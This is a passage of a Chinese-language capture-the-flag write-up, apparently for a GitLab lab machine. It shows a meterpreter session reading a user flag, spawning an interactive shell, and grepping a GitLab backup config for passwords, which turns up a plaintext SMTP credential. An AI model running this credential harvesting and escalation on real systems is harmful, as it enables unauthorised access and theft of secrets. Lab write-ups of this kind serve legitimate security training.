 ```
040755/rwxr-xr-x  4096  dir   2022-04-05 08:32:28 -0400  dude

meterpreter > cd dude
meterpreter > ls
Listing: /home/dude
===================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100551/r-xr-x--x  33    fil   2022-07-18 02:21:48 -0400  user.txt

meterpreter > cat user.txt 
176f5155e3df....
```

# 提权

使用```/bin/bash -i```提升到tty

在```/opt```目录找到一个```backup```文件夹，```/opt```目录通常不会有任何文件，因此这里的文件信息要多注意，常常是提权的关键

在gitlab.rb里找到一个密码
```
git@gitlab:/opt/backup$ cat gitlab.rb|grep pass
cat gitlab.rb|grep pass
#### Email account password
# gitlab_rails['incoming_email_password'] = "[REDACTED]"
#     password: '_the_password_of_the_bind_user'
#     password: '_the_password_of_the_bind_user'
#   '/users/password',
#### Change the initial default admin password and shared runner registration tokens.
# gitlab_rails['initial_root_password'] = "password"
# gitlab_rails['db_password'] = nil
# gitlab_rails['redis_password'] = nil
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
# gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
# postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
# postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
# redis['password'] = 'redis-password-goes-here'
####! **Master password should have the same value defined in
####!   redis['password'] to enable the instance to transition to/from
# redis['master_password'] = 'redis-password-goes-here'
# geo_secondary['db_password'] = nil
# geo_postgresql['pgbouncer_user_password'] = nil
#     password: PASSWORD
###! generate this with `echo -n '$password + $username' | md5sum`
# pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
#     password: MD5_PASSWORD_HASH
# postgresql['pgbouncer_user_password'] = nil

```
